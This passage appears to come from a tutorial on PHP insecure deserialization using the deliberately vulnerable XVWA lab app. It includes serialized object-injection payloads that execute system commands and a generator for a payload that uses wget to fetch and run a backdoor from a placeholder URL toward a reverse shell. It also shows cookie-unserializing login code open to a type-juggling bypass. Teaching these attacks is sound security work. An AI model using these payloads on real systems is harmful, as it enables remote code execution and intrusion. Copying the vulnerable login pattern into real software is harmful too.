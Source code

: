 ```php
            echo "<br/>" . $var1[0] . " - " . $var1[1];
        }
    } else {
        echo ""; # nothing happens here
    }
?>
```

Payload:

```
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}
```

This vulnerability is **extremely dangerous**, as it could also lead to an **RCE (Remote Code Execution)** exploit.
An attacker could use a payload which downloads a script and starts a reverse shell connected to the web server.
The payload could look like this:

```php
<?php
    class PHPObjectInjection
    {
        // Change URL/ filename to match your setup
        public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
    }
    echo urlencode(serialize(new PHPObjectInjection));
?>
```

Of course, there are many other methods to achieve a reverse shell once you have the ability to execute code on the target machine.

### Authentication bypass - Type juggling

```php
<?php
    include("credentials.php");

    // $adminName = "random";
    // $adminPassword = "pass";

    $data = unserialize($_COOKIE['auth']);

    if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
        echo "You logged in as admin!";
    } else {
        echo "Login failed!";
    }
?>
```
